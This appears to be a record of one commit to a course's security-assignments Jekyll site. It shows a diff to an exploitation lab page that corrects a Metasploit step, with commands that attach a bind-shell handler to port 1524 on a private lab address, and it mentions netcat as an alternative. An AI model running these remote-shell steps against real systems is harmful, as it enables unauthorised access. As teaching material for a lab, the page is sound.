

Before and after one commit to security-assignments/security-assignments.github.io, a Jekyll site: the page built from _labs/lab_exploitation.md, in a window 1280 px wide and 900 px high, scrolled down 12418 px. Shown: the part 146-452 px from the top of the window, without its empty margins (38-944 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Updated exploit lab v2

```diff
--- a/_labs/lab_exploitation.md
+++ b/_labs/lab_exploitation.md
@@ -584,7 +584,7 @@ Now, exploit three additional services.
     * easy way, skip metasploit and use `netcat` (`nc`)
         * Read basic docs flex your self-learning muscle!
     * metasploit way:
-        * set payload exploit/multi/handler
+        * use exploit/multi/handler
         * set payload generic/shell_bind_tcp
         * set lport 1524
         * set rhost 192.168.55.102
```
